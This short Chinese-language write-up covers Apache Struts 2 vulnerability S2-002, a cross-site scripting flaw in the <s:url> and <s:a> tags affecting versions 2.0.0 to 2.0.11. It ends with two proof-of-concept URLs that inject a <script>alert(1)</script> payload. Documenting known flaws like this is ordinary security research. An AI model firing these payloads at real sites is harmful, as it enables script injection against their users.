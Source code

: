# s2-002

### 一、漏洞简介

```
对于<s：url>和<s：a>标签，可以在构造和呈现标签的结果URL时注入不能正确转义的参数值。以下情况是已知的：
构造<s：a>结果中包含的参数值可以注入未转义的双引号，从而可以通过转义已渲染的href属性来在生成的HTML中注入代码。
当includeParams设置为“none”的任何其他值时，<s：url>和<s：a>标签无法转义<script>
```

### 二、漏洞影响

Struts 2.0.0 - Struts 2.0.11

### 三、复现过程

poc


```bash
http://url:8080/index.action?"><script>alert(1)</script><"
```


```bash
http://url:8080/index.action?<script>alert(1)</script>test=hello
```